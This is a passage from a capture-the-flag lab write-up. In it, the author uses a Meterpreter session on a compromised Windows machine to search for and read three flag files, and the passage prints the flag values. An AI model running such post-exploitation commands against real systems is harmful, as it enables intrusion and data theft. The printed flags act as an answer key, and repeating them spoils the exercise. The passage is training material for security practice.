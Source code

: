 C:\>type flag1.txt
type flag1.txt
flag{access_the_machine}
C:\>

9. Use search in meterpreter to check for the other flags

meterpreter > search -f flag*txt
Found 3 results...
==================

Path                                  Size (bytes)  Modified (UTC)
----                                  ------------  --------------
c:\Users\Jon\Documents\flag3.txt      37            2019-03-17 15:26:36 -0400
c:\Windows\System32\config\flag2.txt  34            2019-03-17 15:32:48 -0400
c:\flag1.txt                          24            2019-03-17 15:27:21 -0400

meterpreter > 

10. open the remaining flags to complete the room.

meterpreter > cat "c:\Windows\System32\config\flag2.txt"
flag{sam_database_elevated_access}meterpreter > 
meterpreter > 
meterpreter > cat "c:\Users\Jon\Documents\flag3.txt"
flag{admin_documents_can_be_valuable}meterpreter > 




